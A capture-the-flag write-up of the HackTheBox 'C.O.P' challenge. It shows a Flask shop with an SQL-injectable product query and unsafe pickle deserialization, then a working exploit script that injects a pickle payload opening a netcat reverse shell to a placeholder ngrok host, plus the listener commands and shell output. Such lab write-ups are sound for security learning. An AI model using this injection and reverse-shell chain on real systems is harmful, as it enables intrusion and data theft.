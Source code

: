 ```yaml
---
title: HackTheBox - C.O.P
author: 0
date: 2023-03-31 18:00:00 +0800
categories: [htb, challenge]
tags: [web, sql-injection, insecure-deserialization, pickle]
render_with_liquid: false
---
```


> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

When the code uses `pickle`, Insecure Deserialization directly comes to mind. In this case, pickle data is deserialized when the homepage or a certain product page is requested.

When a certain product page is requested, an id parameter is provided in the URL. There is raw data being placed in a format string in the `select_by_id` method that provides the data for the product page.

```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

This data then gets loaded by `pickle`.

```python
from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```

We can write a script that performs an SQL injection on the product_id parameter to add our serialized payload that then spawns a reverse shell. I didn't managed to get the `cat flag.txt` payload to work, but a reverse shell did work.

```python
import requests
import sys
import base64
import pickle

class Exploit():
    def __reduce__(self):
        import os
        cmd = ("mkfifo /tmp/f;nc NGROK_URL NGROK_PORT  0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f")
        return os.system, (cmd,)
serialized_data = base64.b64encode( pickle.dumps(Exploit())).decode()
payload = f"1' UNION select '{serialized_data}' --" 
encoded_payload = requests.utils.requote_uri(payload)

url = f'http://{sys.argv[1]}'
response = requests.get(f'{url}/view/{encoded_payload}') 
print(response.request.url)
print(response.content)
```

Important to first install and run [ngrok](https://0xdf.gitlab.io/2020/05/12/ngrok-ftw.html), replace `NGROK_URL` and `NGROK_PORT` in the payload:
```bash
$ Downloads/ngrok tcp 9001
```

Start a netcat session, in a seperate terminal, to catch the reverse shell:
```bash
$ nc -lvnp 9001
```

After running the exploit script, we get a shell through our netcat listener:
```bash
$ python3 exploit2.py 161.35.164.69:31934
```

```bash
$ nc -lvnp 9001                                
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 39644
/bin/sh: can't access tty; job control turned off
/app # ls
application
cop.db
flag.txt
requirements.txt
run.py
schema.sql
/app # cat flag.txt
HTB{**REDACTED**}
/app # 
```
